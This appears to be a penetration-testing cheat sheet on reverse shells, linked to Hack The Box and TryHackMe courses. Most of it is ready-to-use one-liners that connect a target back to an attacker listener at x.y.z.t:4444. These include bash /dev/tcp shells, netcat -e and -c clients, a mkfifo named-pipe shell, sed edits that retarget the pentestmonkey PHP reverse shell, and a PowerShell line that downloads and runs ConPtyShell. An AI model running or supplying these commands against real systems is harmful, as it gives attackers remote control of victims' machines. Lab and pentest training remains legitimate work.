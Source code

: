 # Reverse shell

[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)

<div class="row row-cols-lg-2"><div>

When a victim <small>(client)</small> connects to a server <small>(hacker)</small>, we gain access to what we call a 'reverse shell,' allowing us to run commands on the victim and maybe compromise it.

The 'reverse' comes from the fact that the target is the one connecting to use, while with ssh or other remote tools, the client is 'normally' the one initiating the connection. 💥

The hacker will run a listener on their machine and wait for the compromised target to connect back to it, e.g. wait for the target to execute the reverse shell payload 🪲.
</div><div>

You will have to configure the selected reverse shell that you will use to connect back to the listener. For the commands below, we consider the host with the listener IP to be `x.y.z.t`; port `4444` .

If your target is missing a binary, you may be able to download a precompiled version on [andrew-d GitHub](https://github.com/andrew-d/static-binaries/tree/master/binaries) <small>(2.8k ⭐, 2020 🪦)</small>.

**For the listener**, you can use tools listed in [Remote Shell](../index.md#remote-shell-) or a simple instable netcat listener listening on the selected port:

```shell!
$ nc -lvnp 4444 # await the reverse shell payload execution
```
</div></div>

<hr class="sep-both">

## Revshells website

<div class="row row-cols-lg-2"><div>

[revshells](https://www.revshells.com/) is a popular website to create reverse shell payloads, along with generating listener commands.

* Example: "Bash" client

```shell!
$ sh -i >& /dev/tcp/x.y.z.t/4444 0>&1
```

* Example: "nc.exe -e" client

```shell!
PS> nc.exe x.y.z.t 4444 -e sh
```

➡️ Select one based on what command you can run on the target.
</div><div>

Other alternatives are:

* [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.4k ⭐, script)
* [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, script, 2018/2019)
</div></div>

<hr class="sep-both">

## PHP reverse shell

<div class="row row-cols-lg-2"><div>

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015). This is a well-known reference.

On Kali Linux, there is local copy in `/usr/share/webshells/php/`.

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/x.y.z.t/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```
</div><div>
</div></div>

<hr class="sep-both">

## netcat client

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

The most common usage is:

```ps
$ nc -c /bin/bash x.y.z.t 4444
```
</div><div>

Netcat option `-e` is often not available due to security measures.

```ps
$ nc x.y.z.t 4444 -e /bin/bash
```
</div></div>

<hr class="sep-both">

## Linux targets

<div class="row row-cols-lg-2"><div>

#### TCP socket

```shell!
$ /bin/bash -i >& /dev/tcp/x.y.z.t/4444 0>&1
```
</div><div>

#### Named pipe

```shell!
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc x.y.z.t 4444 >/tmp/f
```
</div></div>

<hr class="sep-both">

## Windows targets

<div class="row row-cols-lg-2"><div>

You can try [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) (0.7k ⭐).

```ps
PS> IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing)
PS> Invoke-ConPtyShell x.y.z.t 4444
```
</div><div>

You can try [powercat](https://github.com/besimorhino/powercat) <small>(1.8k ⭐, powershell netcat client/server)</small>
</div></div>